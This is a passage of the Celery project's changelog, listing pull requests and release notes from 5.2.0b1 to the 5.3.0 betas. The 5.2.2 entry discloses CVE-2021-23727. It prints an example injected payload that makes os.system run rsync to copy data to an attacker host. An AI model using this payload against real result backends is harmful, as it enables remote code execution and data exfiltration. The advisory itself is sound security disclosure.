- Improved custom stamping visitor documentation by @Nusnus in #7745
- Improved the coverage of test_chord_stamping_body_chord() by @Nusnus in #7748
- billiard >= 3.6.3.0,<5.0 for rpm by @auvipy in #7764
- Fixed memory leak with ETA tasks at connection error when worker_cancel_long_running_tasks_on_connection_loss is enabled by @Nusnus in #7771
- Fixed bug where a chord with header of type tuple was not supported in the link_error flow for task_allow_error_cb_on_chord_header flag by @Nusnus in #7772
- Scheduled weekly dependency update for week 38 by @pyup-bot in #7767
- recreate_module: set spec to the new module by @skshetry in #7773
- Override integration test config using integration-tests-config.json by @thedrow in #7778
- Fixed error handling bugs due to upgrade to a newer version of billiard by @Nusnus in #7781
- Do not recommend using easy_install anymore by @jugmac00 in #7789
- GitHub Workflows security hardening by @sashashura in #7768
- Update ambiguous acks_late doc by @Zhong-z in #7728
- billiard >=4.0.2,<5.0 by @auvipy in #7720
- importlib_metadata remove deprecated entry point interfaces by @woutdenolf in #7785
- Scheduled weekly dependency update for week 41 by @pyup-bot in #7798
- pyzmq>=22.3.0 by @auvipy in #7497
- Remove amqp from the BACKEND_ALISES list by @Kludex in #7805
- Replace print by logger.debug by @Kludex in #7809
- Ignore coverage on except ImportError by @Kludex in #7812
- Add mongodb dependencies to test.txt by @Kludex in #7810
- Fix grammar typos on the whole project by @Kludex in #7815
- Remove isatty wrapper function by @Kludex in #7814
- Remove unused variable _range by @Kludex in #7813
- Add type annotation on concurrency/threads.py by @Kludex in #7808
- Fix linter workflow by @Kludex in #7816
- Scheduled weekly dependency update for week 42 by @pyup-bot in #7821
- Remove .cookiecutterrc by @Kludex in #7830
- Remove .coveragerc file by @Kludex in #7826
- kombu>=5.3.0b2 by @auvipy in #7834
- Fix readthedocs build failure by @woutdenolf in #7835
- Fixed bug in group, chord, chain stamp() method, where the visitor overrides the previously stamps in tasks of these objects by @Nusnus in #7825
- Stabilized test_mutable_errback_called_by_chord_from_group_fail_multiple by @Nusnus in #7837
- Use SPDX license expression in project metadata by @RazerM in #7845
- New control command revoke_by_stamped_headers by @Nusnus in #7838
- Clarify wording in Redis priority docs by @strugee in #7853
- Fix non working example of using celery_worker pytest fixture by @paradox-lab in #7857
- Removed the mandatory requirement to include stamped_headers key when implementing on_signature() by @Nusnus in #7856
- Update serializer docs by @sondrelg in #7858
- Remove reference to old Python version by @Kludex in #7829
- Added on_replace() to Task to allow manipulating the replaced sig with custom changes at the end of the task.replace() by @Nusnus in #7860
- Add clarifying information to completed_count documentation by @hankehly in #7873
- Stabilized test_revoked_by_headers_complex_canvas by @Nusnus in #7877
- StampingVisitor will visit the callbacks and errbacks of the signature by @Nusnus in #7867
- Fix "rm: no operand" error in clean-pyc script by @hankehly in #7878
- Add --skip-checks flag to bypass django core checks by @mudetz in #7859
- Scheduled weekly dependency update for week 44 by @pyup-bot in #7868
- Added two new unit tests to callback stamping by @Nusnus in #7882
- Sphinx extension: use inspect.signature to make it Python 3.11 compatible by @mathiasertl in #7879
- cryptography==38.0.3 by @auvipy in #7886
- Canvas.py doc enhancement by @Nusnus in #7889
- Fix typo by @sondrelg in #7890
- fix typos in optional tests by @hsk17 in #7876
- Canvas.py doc enhancement by @Nusnus in #7891
- Fix revoke by headers tests stability by @Nusnus in #7892
- feat: add global keyprefix for backend result keys by @kaustavb12 in #7620
- Canvas.py doc enhancement by @Nusnus in #7897
- fix(sec): upgrade sqlalchemy to 1.2.18 by @chncaption in #7899
- Canvas.py doc enhancement by @Nusnus in #7902
- Fix test warnings by @ShaheedHaque in #7906
- Support for out-of-tree worker pool implementations by @ShaheedHaque in #7880
- Canvas.py doc enhancement by @Nusnus in #7907
- Use bound task in base task example. Closes #7909 by @WilliamDEdwards in #7910
- Allow the stamping visitor itself to set the stamp value type instead of casting it to a list by @Nusnus in #7914
- Stamping a task left the task properties dirty by @Nusnus in #7916
- Fixed bug when chaining a chord with a group by @Nusnus in #7919
- Fixed bug in the stamping visitor mechanism where the request was lacking the stamps in the 'stamps' property by @Nusnus in #7928
- Fixed bug in task_accepted() where the request was not added to the requests but only to the active_requests by @Nusnus in #7929
- Fix bug in TraceInfo._log_error() where the real exception obj was hiding behind 'ExceptionWithTraceback' by @Nusnus in #7930
- Added integration test: test_all_tasks_of_canvas_are_stamped() by @Nusnus in #7931
- Added new example for the stamping mechanism: examples/stamping by @Nusnus in #7933
- Fixed a bug where replacing a stamped task and stamping it again by @Nusnus in #7934
- Bugfix for nested group stamping on task replace by @Nusnus in #7935
- Added integration test test_stamping_example_canvas() by @Nusnus in #7937
- Fixed a bug in losing chain links when unchaining an inner chain with links by @Nusnus in #7938
- Removing as not mandatory by @auvipy in #7885
- Housekeeping for Canvas.py by @Nusnus in #7942
- Scheduled weekly dependency update for week 50 by @pyup-bot in #7954
- try pypy 3.9 in CI by @auvipy in #7956
- sqlalchemy==1.4.45 by @auvipy in #7943
- billiard>=4.1.0,<5.0 by @auvipy in #7957
- feat(typecheck): allow changing type check behavior on the app level; by @moaddib666 in #7952
- Add broker_channel_error_retry option by @nkns165 in #7951
- Add beat_cron_starting_deadline_seconds to prevent unwanted cron runs by @abs25 in #7945
- Scheduled weekly dependency update for week 51 by @pyup-bot in #7965
- Added doc to "retry_errors" newly supported field of "publish_retry_policy" of the task namespace by @Nusnus in #7967
- Renamed from master to main in the docs and the CI workflows by @Nusnus in #7968
- Fix docs for the exchange to use with worker_direct by @alessio-b2c2 in #7973
- Pin redis==4.3.4 by @auvipy in #7974
- return list of nodes to make sphinx extension compatible with Sphinx 6.0 by @mathiasertl in #7978
- use version range redis>=4.2.2,<4.4.0 by @auvipy in #7980
- Scheduled weekly dependency update for week 01 by @pyup-bot in #7987
- Add annotations to minimise differences with celery-aio-pool's tracer.py. by @ShaheedHaque in #7925
- Fixed bug where linking a stamped task did not add the stamp to the link's options by @Nusnus in #7992
- sqlalchemy==1.4.46 by @auvipy in #7995
- pytz by @auvipy in #8002
- Fix few typos, provide configuration + workflow for codespell to catch any new by @yarikoptic in #8023
- RabbitMQ links update by @arnisjuraga in #8031
- Ignore files generated by tests by @Kludex in #7846
- Revert "sqlalchemy==1.4.46 (#7995)" by @Nusnus in #8033
- Fixed bug with replacing a stamped task with a chain or a group (inc. links/errlinks) by @Nusnus in #8034
- Fixed formatting in setup.cfg that caused flake8 to misbehave by @Nusnus in #8044
- Removed duplicated import Iterable by @Nusnus in #8046
- Fix docs by @Nusnus in #8047
- Document --logfile default by @strugee in #8057
- Stamping Mechanism Refactoring by @Nusnus in #8045
- result_backend_thread_safe config shares backend across threads by @CharlieTruong in #8058
- Fix cronjob that use day of month and negative UTC timezone by @pkyosx in #8053
- Stamping Mechanism Examples Refactoring by @Nusnus in #8060
- Fixed bug in Task.on_stamp_replaced() by @Nusnus in #8061
- Stamping Mechanism Refactoring 2 by @Nusnus in #8064
- Changed default append_stamps from True to False (meaning duplicates … by @Nusnus in #8068
- typo in comment: mailicious => malicious by @yanick in #8072
- Fix command for starting flower with specified broker URL by @ShukantPal in #8071
- Improve documentation on ETA/countdown tasks (#8069) by @norbertcyran in #8075

.. _version-5.3.0b1:

5.3.0b1
=======

:release-date: 2022-08-01 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Canvas Header Stamping (#7384).
- async chords should pass it's kwargs to the group/body.
- beat: Suppress banner output with the quiet option (#7608).
- Fix honor Django's TIME_ZONE setting.
- Don't warn about DEBUG=True for Django.
- Fixed the on_after_finalize cannot access tasks due to deadlock.
- Bump kombu>=5.3.0b1,<6.0.
- Make default worker state limits configurable (#7609).
- Only clear the cache if there are no active writers.
- Billiard 4.0.1

.. _version-5.3.0a1:

5.3.0a1
=======

:release-date: 2022-06-29 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Remove Python 3.4 compatibility code.
- call ping to set connection attr for avoiding redis parse_response error.
- Use importlib instead of deprecated pkg_resources.
- fix #7245 uid duplicated in command params.
- Fix subscribed_to maybe empty (#7232).
- Fix: Celery beat sleeps 300 seconds sometimes even when it should run a task within a few seconds (e.g. 13 seconds) #7290.
- Add security_key_password option (#7292).
- Limit elasticsearch support to below version 8.0.
- try new major release of pytest 7 (#7330).
- broker_connection_retry should no longer apply on startup (#7300).
- Remove __ne__ methods (#7257).
- fix #7200 uid and gid.
- Remove exception-throwing from the signal handler.
- Add mypy to the pipeline (#7383).
- Expose more debugging information when receiving unknown tasks. (#7405)
- Avoid importing buf_t from billiard's compat module as it was removed.
- Avoid negating a constant in a loop. (#7443)
- Ensure expiration is of float type when migrating tasks (#7385).
- load_extension_class_names - correct module_name (#7406)
- Bump pymongo[srv]>=4.0.2.
- Use inspect.getgeneratorstate in asynpool.gen_not_started (#7476).
- Fix test with missing .get() (#7479).
- azure-storage-blob>=12.11.0
- Make start_worker, setup_default_app reusable outside of pytest.
- Ensure a proper error message is raised when id for key is empty (#7447).
- Crontab string representation does not match UNIX crontab expression.
- Worker should exit with ctx.exit to get the right exitcode for non-zero.
- Fix expiration check (#7552).
- Use callable built-in.
- Include dont_autoretry_for option in tasks. (#7556)
- fix: Syntax error in arango query.
- Fix custom headers propagation on task retries (#7555).
- Silence backend warning when eager results are stored.
- Reduce prefetch count on restart and gradually restore it (#7350).
- Improve workflow primitive subclassing (#7593).
- test kombu>=5.3.0a1,<6.0 (#7598).
- Canvas Header Stamping (#7384).

.. _version-5.2.7:

5.2.7
=====

:release-date: 2022-5-26 12:15 P.M UTC+2:00
:release-by: Omer Katz

- Fix packaging issue which causes poetry 1.2b1 and above to fail install Celery (#7534).

.. _version-5.2.6:

5.2.6
=====

:release-date: 2022-4-04 21:15 P.M UTC+2:00
:release-by: Omer Katz

- load_extension_class_names - correct module_name (#7433).
    This fixes a regression caused by #7218.

.. _version-5.2.5:

5.2.5
=====

:release-date: 2022-4-03 20:42 P.M UTC+2:00
:release-by: Omer Katz

**This release was yanked due to a regression caused by the PR below**

- Use importlib instead of deprecated pkg_resources (#7218).

.. _version-5.2.4:

5.2.4
=====

:release-date: 2022-4-03 20:30 P.M UTC+2:00
:release-by: Omer Katz

- Expose more debugging information when receiving unknown tasks (#7404).

.. _version-5.2.3:

5.2.3
=====

:release-date: 2021-12-29 12:00 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Allow redis >= 4.0.2.
- Upgrade minimum required pymongo version to 3.11.1.
- tested pypy3.8 beta (#6998).
- Split Signature.__or__ into subclasses' __or__ (#7135).
- Prevent duplication in event loop on Consumer restart.
- Restrict setuptools>=59.1.1,<59.7.0.
- Kombu bumped to v5.2.3
- py-amqp bumped to v5.0.9
- Some docs & CI improvements.


.. _version-5.2.2:

5.2.2
=====

:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz

- Various documentation fixes.
- Fix CVE-2021-23727 (Stored Command Injection security vulnerability).

    When a task fails, the failure information is serialized in the backend.
    In some cases, the exception class is only importable from the
    consumer's code base. In this case, we reconstruct the exception class
    so that we can re-raise the error on the process which queried the
    task's result. This was introduced in #4836.
    If the recreated exception type isn't an exception, this is a security issue.
    Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
    ``os.system("rsync /data attacker@192.168.56.100:~/data")``
    by setting the task's result to a failure in the result backend with the os,
    the system function as the exception type and the payload ``rsync /data attacker@192.168.56.100:~/data`` as the exception arguments like so:

    .. code-block:: python

        {
              "exc_module": "os",
              'exc_type': "system",
              "exc_message": "rsync /data attacker@192.168.56.100:~/data"
        }

    According to my analysis, this vulnerability can only be exploited if
    the producer delayed a task which runs long enough for the
    attacker to change the result mid-flight, and the producer has
    polled for the task's result.
    The attacker would also have to gain access to the result backend.
    The severity of this security vulnerability is low, but we still
    recommend upgrading.


.. _version-5.2.1:

5.2.1
=====

:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Fix rstrip usage on bytes instance in ProxyLogger.
- Pass logfile to ExecStop in celery.service example systemd file.
- fix: reduce latency of AsyncResult.get under gevent (#7052)
- Limit redis version: <4.0.0.
- Bump min kombu version to 5.2.2.
- Change pytz>dev to a PEP 440 compliant pytz>0.dev.0.
- Remove dependency to case (#7077).
- fix: task expiration is timezone aware if needed (#7065).
- Initial testing of pypy-3.8 beta to CI.
- Docs, CI & tests cleanups.


.. _version-5.2.0:

5.2.0
=====

:release-date: 2021-11-08 7.15 A.M UTC+6:00
:release-by: Asif Saif Uddin

- Prevent from subscribing to empty channels (#7040)
- fix register_task method.
- Fire task failure signal on final reject (#6980)
- Limit pymongo version: <3.12.1 (#7041)
- Bump min kombu version to 5.2.1

.. _version-5.2.0rc2:

5.2.0rc2
========

:release-date: 2021-11-02 1.54 P.M UTC+3:00
:release-by: Naomi Elstein

- Bump Python 3.10.0 to rc2.
- [pre-commit.ci] pre-commit autoupdate (#6972).
- autopep8.
- Prevent worker to send expired revoked items upon hello command (#6975).
- docs: clarify the 'keeping results' section (#6979).
- Update deprecated task module removal in 5.0 documentation (#6981).
- [pre-commit.ci] pre-commit autoupdate.
- try python 3.10 GA.
- mention python 3.10 on readme.
- Documenting the default consumer_timeout value for rabbitmq >= 3.8.15.
- Azure blockblob backend parametrized connection/read timeouts (#6978).
- Add as_uri method to azure block blob backend.
- Add possibility to override backend implementation with celeryconfig (#6879).
- [pre-commit.ci] pre-commit autoupdate.
- try to fix deprecation warning.
- [pre-commit.ci] pre-commit autoupdate.
- not needed anyore.
- not needed anyore.
- not used anymore.
- add github discussions forum

.. _version-5.2.0rc1:

5.2.0rc1
========
:release-date: 2021-09-26 4.04 P.M UTC+3:00
:release-by: Omer Katz

- Kill all workers when main process exits in prefork model (#6942).
- test kombu 5.2.0rc1 (#6947).
- try moto 2.2.x (#6948).
- Prepared Hacker News Post on Release Action.
- update setup with python 3.7 as minimum.
- update kombu on setupcfg.
- Added note about automatic killing all child processes of worker after its termination.
- [pre-commit.ci] pre-commit autoupdate.
- Move importskip before greenlet import (#6956).
- amqp: send expiration field to broker if requested by user (#6957).
- Single line drift warning.
- canvas: fix kwargs argument to prevent recursion (#6810) (#6959).
- Allow to enable Events with app.conf mechanism.
- Warn when expiration date is in the past.
- Add the Framework :: Celery trove classifier.
- Give indication whether the task is replacing another (#6916).
- Make setup.py executable.
- Bump version: 5.2.0b3 → 5.2.0rc1.

.. _version-5.2.0b3:

5.2.0b3
=======

:release-date: 2021-09-02 8.38 P.M UTC+3:00
:release-by: Omer Katz

- Add args to LOG_RECEIVED (fixes #6885) (#6898).
- Terminate job implementation for eventlet concurrency backend (#6917).
- Add cleanup implementation to filesystem backend (#6919).
- [pre-commit.ci] pre-commit autoupdate (#69).
- Add before_start hook (fixes #4110) (#6923).
- Restart consumer if connection drops (#6930).
- Remove outdated optimization documentation (#6933).
- added https verification check functionality in arangodb backend (#6800).
- Drop Python 3.6 support.
- update supported python versions on readme.
- [pre-commit.ci] pre-commit autoupdate (#6935).
- Remove appveyor configuration since we migrated to GA.
- pyugrade is now set to upgrade code to 3.7.
- Drop exclude statement since we no longer test with pypy-3.6.
- 3.10 is not GA so it's not supported yet.
- Celery 5.1 or earlier support Python 3.6.
- Fix linting error.
- fix: Pass a Context when chaining fail results (#6899).
- Bump version: 5.2.0b2 → 5.2.0b3.

.. _version-5.2.0b2:

5.2.0b2
=======

:release-date: 2021-08-17 5.35 P.M UTC+3:00
:release-by: Omer Katz

- Test windows on py3.10rc1 and pypy3.7 (#6868).
- Route chord_unlock task to the same queue as chord body (#6896).
- Add message properties to app.tasks.Context (#6818).
- handle already converted LogLevel and JSON (#6915).
- 5.2 is codenamed dawn-chorus.
- Bump version: 5.2.0b1 → 5.2.0b2.

.. _version-5.2.0b1:

5.2.0b1
=======

:release-date: 2021-08-11 5.42 P.M UTC+3:00
:release-by: Omer Katz

- Add Python 3.10 support (#6807).
- Fix docstring for Signal.send to match code (#6835).
- No blank line in log output (#6838).
- Chords get body_type independently to handle cases where body.type does not exist (#6847).
- Fix #6844 by allowing safe queries via app.inspect().active() (#6849).
- Fix multithreaded backend usage (#6851).
- Fix Open Collective donate button (#6848).
- Fix setting worker concurrency option after signal (#6853).
- Make ResultSet.on_ready promise hold a weakref to self (#6784).
- Update configuration.rst.
- Discard jobs on flush if synack isn't enabled (#6863).
- Bump click version to 8.0 (#6861).
- Amend IRC network link to Libera (#6837).
- Import celery lazily in pytest plugin and unignore flake8 F821, "undefined name '...'" (#6872).
- Fix inspect --json output to return valid json without --quiet.
- Remove celery.task references in modules, docs (#6869).
-  The Consul backend must correctly associate requests and responses (#6823).
